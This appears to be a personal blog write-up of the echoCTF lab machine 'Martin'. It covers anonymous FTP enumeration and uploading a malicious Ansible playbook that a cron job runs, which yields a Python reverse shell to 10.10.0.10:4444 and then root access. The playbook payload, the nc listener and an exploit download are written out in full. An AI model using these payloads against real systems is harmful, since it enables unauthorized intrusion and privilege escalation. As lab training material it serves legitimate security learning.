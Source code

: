 ```yaml
---
layout: post
title: Martin
feature-img: "assets/img/portfolio/martin.png"
img: "assets/img/portfolio/martin.png"
date: 15 jul 2021
tags: [Ftp, playbooks]
---
```




[martin](https://echoctf.red/target/8)


machine description:

Martin is an academically brilliant teacher's pet. However, for all his brilliance, the simplest tricks are the ones that get him.
*Pick me, teacher, I'm ever so smart!*

---

### Enumartion


```
nmap -sC -sV -p- 10.0.30.0 -vv

21/tcp open  ftp     syn-ack ProFTPD 1.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp             0 Oct 23  2020 ETSCTF_a0f1eb9169bf9cfaef4f16af15160982
| drwxr-xr-x   2 ftp      ftp          4096 Oct 23  2020 playbooks
|_-rw-rw-r--   1 ftp      ftp           442 Oct 23  2020 welcome.msg
Service Info: OS: Unix



```

### Enumartion-FTP

ProFTPD 1.3.5

we have 2 files and one folder: 

1. flag
2. playbooks(folder contain facts.yml)
3. welcome.msg

using anonymus account, i have susccess to login. 
got banner massage:

```
230-Welcome, archive user anonymous@10.10.0.10 !
230-
230-The local time is: Tue Aug 02 06:52:02 2022
230-
230-This is an administrative FTP server for unattended ansible deployment.
230-
230-NOTICE: Make sure your playbooks are syntactically correct and able to run
230-before uploading.
230-
230-Playbooks run every 60 seconds.
230-
230-Don't replace facts.yml -- the system needs this file.
230-
230-Playbooks that are executed are removed from the folder
230-
230---------------------------------------------------------------------------
230 Anonymous access granted, restrictions apply

```

from hints i understand that the key is playbook file, and it runs every 60 sec. 

checking files: 

welcome.msg  -- its the banner that we see when we logged in. 
facts.yml  -- seems to be ftp configration

and we got shell:

```
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 38742
/bin/sh: 0: can't access tty; job control turned off
$ 

/bin/sh: 0: can't access tty; job control turned off
$ id
uid=106(ftp) gid=65534(nogroup) groups=65534(nogroup)
$ whoami
ftp


```


### RCE 

google search gave a lot of RCE exploits. 
i used [exploit_db](https://www.exploit-db.com/exploits/49908)
downloading: curl https://www.exploit-db.com/raw/49908 -o exp.py

but it didnt worked, same for others. 
google for - [ansible playbooks](https://www.tommacdonald.co.uk/backdooring-ansible-playbooks-for-persistence/)


```
Create an AnsbilePOC.yml file in /etc/ansible/ containing:

- hosts: localhost
  sudo: true
  sudo_user: ftp
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

uploading the file to ftp/playbooks

```
ftp> put exp.yml 
local: exp.yml remote: exp.yml
200 PORT command successful
150 Opening BINARY mode data connection for exp.yml
226 Transfer complete
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp             0 Aug  2 07:09 exp.yml
-rw-rw-r--   1 ftp      ftp           308 Oct 23  2020 facts.yml
226 Transfer complete
ftp> 
```

after uploading the exp.yml file to playbook folder, i opened nc for connection.

nc -lnvp 4444
Listening on 0.0.0.0 4444

and wating as discribed:
1. Playbooks run every 60 seconds.
2. Playbooks that are executed are removed from the folder


```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - need pass. 

ps -aux | root


```
root         1  0.0  0.0  20068  2920 pts/0    Ss+  06:45   0:00 /bin/bash /entrypoint.sh tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root        25  0.0  0.0  25908  2244 ?        Ss   06:45   0:00 /usr/sbin/cron
root        73  0.0  0.0   4276   740 pts/0    S+   06:45   0:00 tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root      1632  0.0  0.5  82328 21904 ?        S    07:22   0:00 /usr/bin/python /usr/bin/ansible-playbook /srv/ftp/playbooks/exp.yml
root      1642  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c /bin/sh -c 'sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c '"'"'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'"'"''
root      1643  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c 'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'
root      1645  0.0  0.0  38972  3048 ?        S    07:22   0:00 sudo -H -S -p [sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password:  -u ftp /bin/sh -c echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command
```

ss -ant 

```
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
LISTEN     0      128              127.0.0.11:33575                    *:*     
ESTAB      0      10                10.0.30.0:38952           10.10.0.10:4444  
LISTEN     0      32                       :::21                      :::*     
ESTAB      0      0          ::ffff:10.0.30.0:21       ::ffff:10.10.0.10:54170 
```

after some rabbit holes i foucsed on the yml file again and noticed somthing importent:

*sudo_user: ftp*
we are runnig as ftp user, i tried to change to root user:

```
- hosts: localhost
  sudo: true
  sudo_user: root
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upload the file and opend nc:

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 39288
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```
